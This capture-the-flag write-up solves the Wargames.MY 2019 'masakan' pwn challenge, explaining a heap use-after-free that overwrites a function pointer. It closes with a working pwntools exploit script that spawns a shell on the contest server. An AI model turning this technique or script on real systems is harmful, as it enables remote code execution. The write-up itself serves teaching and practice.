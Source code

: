 ```yaml
---
layout: post
title: masakan (pwn)
ctf: Wargames.MY 2019
permalink: /wargamesmy-19/masakan
---
```


> Yep just nc 45.76.161.20 40076
> 
> [masakan][masakan]

The pseudocode of the program looks like this

```cpp
typedef struct Food {
    void* func;
    char* name;
    char* contents;
} Food;

int num_food = 0;
Food* foods[6];

void main() {
    char* choice_buf;

    while(true) {
        read(0, choice, 4);
        switch(atoi(choice)) {
            case 1:
                masak();
                break;
            case 2:
                buang();
                break;
            case 3:
                hidang();
                break;
            case 4:
                exit(0);
                break;
        }
    }
}

void print_food(Food* food) {
    puts(food->contents);
}

void win(Food* food) {
    system(food->contents);
}

void masak() {
    if (num_food >= 6) return;

    for (int i = 0; i < 6; ++i) {
        if (!foods[i]) {
            foods[i] = malloc(0x18);
            foods[i]->func = print_food;
            foods[i]->name = malloc(100);
            read(0, foods[i]->name, 99);
            char* size; read(0, size; 4);
            foods[i]->content = malloc(atoi(size));
            read(0, foods[i]->content, atoi(size));
            puts("Siap!");
            break;
        }
    }
}

void buang() {
    char* index_buf; read(0, index, 4);
    int index = atoi(index_buf);
    if (foods[index]) {
        free(foods[index]->contents);
        free(foods[index]);
        puts("Tak sedap ye dik!");
    }
}

void hidang() {
    char* index_buf; read(0, index, 4);
    int index = atoi(index_buf);
    if (foods[index]) {
        foods[index]->func(&foods[index]);
    }
}
```

In summary,
1. `masak` lets us create a `Food` object that contains `func` a function pointer to `print_food`, `name` a buffer of size 100, `contents` a buffer of size that we choose.
2. `buang` to `free` a `Food` object from the heap
3. `hidang` to call the `func` function of a chosen `Food` object

It is interesting that a function is assigned to each `Food` object. What if we can overwrite that function pointer with something else, say `win`, then we can call `system` on anything we want? There is a use-after-free vulnerability that allows us to do this.

Although through `buang()` the `Food` objects are `free`'d, but `foods` still contains a pointer to these memory regions. So we just need to make sure after calling `buang()`, we call `masak()` in such a way that `malloc` will give us the address of one of the `Food` objects, then we can overwrite the `func` value of that `Food` object. 

It is possible to get the address of the previous `Food` objects from `malloc` because for small objects, when they are `free`'d, they will be put to the end of a free list. When `malloc` is called, it will check the free list and take an address from there if it is not empty.

This is the way I did it.

1. Create 2 `Food` objects with `contents` of any size that is not 0x18 (e.g 100) and write `/bin/sh` into them
2. `buang` these 2 `Food`s
3. Create another `Food` object with `contents` of size 0x18
4. Write address of `win` into `contents`
5. Get shell

This is how it will look like

**1. Create the 2 `Food` objects**

```plaintext
Food1
+------------+
| print_food |
+------------+        +-------+
| name       +------->+ food1 |
+------------+        +------+--+
| contents   +------->+ /bin/sh |
+------------+        +---------+

Food2
+------------+
| print_food |
+------------+        +-------+
| name       +------->+ food2 |
+------------+        +------+--+
| contents   +------->+ /bin/sh |
+------------+        +---------+
```

**2. Free the 2 `Food` objects**
```plaintext
free-list for size 0x18: (top is last freed object)
Food2
Food1
```

**3. Create a `Food` object**

```plaintext
     Food1
     +------------+
+--->+ print_food |
|    +------------+        +-------+
|    | name       +------> | food1 |
|    +------------+        +-------+-+
|    | contents   +------> | /bin/sh |
|    +------------+        +---------+
|
|    Food2/3
|    +------------+
|    | print_food |
|    +------------+        +-------+
|    | name       +------> | food3 |
|    +------------+        +-------+
|    | contents   +------+
|    +------------+      |
|                        |
+------------------------+
```

`Food2` and `Food3` share the same memory region because `malloc` will return the address of `Food2` first, as it is at the top of the free list. Then when `malloc` is called again with size 0x18 for `contents` of `Food3`, it will get the address of `Food1`.

Now it is quite straightforward, write address `win` into `contents` of `Food3`, then call `hidang` on `Food1` so that the program does `system("/bin/sh")`.

```py
from pwn import *

# r = process("./masakan")
r = remote("45.76.161.20", 40076)

r.sendlineafter(":", "1")
r.sendlineafter(":", "/bin/sh")
r.sendlineafter(":", "100")
r.sendlineafter(":", "ok")

r.sendlineafter(":", "1")
r.sendlineafter(":", "/bin/sh")
r.sendlineafter(":", "100")
r.sendlineafter(":", "ok")

r.sendlineafter(":", "2")
r.sendlineafter(":", "0")

r.sendlineafter(":", "2")
r.sendlineafter(":", "1")

r.sendlineafter(":", "1")
r.sendlineafter(":", "/bin/sh")
r.sendlineafter(":", "24")
r.sendlineafter(":", p64(0x400c5b))

r.sendlineafter(":", "3")
r.sendlineafter(":", "0")

r.interactive()

# wgmy{58f6a8614a5dbe8f0cec6358e34bccc2}
```

[masakan]:{{site.baseurl}}/ctfs/wargamesmy-19/masakan/masakan